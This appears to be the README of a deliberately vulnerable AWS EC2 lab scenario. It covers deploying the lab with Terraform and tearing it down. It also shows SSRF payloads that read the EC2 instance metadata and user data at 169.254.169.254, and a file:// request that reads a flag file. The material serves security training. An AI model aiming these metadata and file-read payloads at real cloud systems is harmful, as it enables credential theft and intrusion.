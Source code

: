 # AWS EC2 SSRF Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the AWS EC2 SSRF vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on EC2 through the SSRF vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/elastic_computing_service/ec2_ssrf/
```

Configure AWS Access Credentials

```shell
aws configure
```

![img](../../../images/1651044031.png)

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/1650428695.png)

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

![img](../../../images/1650429022.png)

## Vulnerability Utilization

On EC2 with SSRF vulnerabilities, we can use SSRF to read EC2 metadata, user data and other information.

read metadata

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1650429215.png)

read user data

> The premise is that the target has been configured with user data, otherwise will be disconnected.

```shell
http://169.254.169.254/latest/user-data
```

![img](../../../images/1650429432.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use SSRF to read this file.

```shell
file:///flag69152201.txt
```

![img](../../../images/1650429930.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
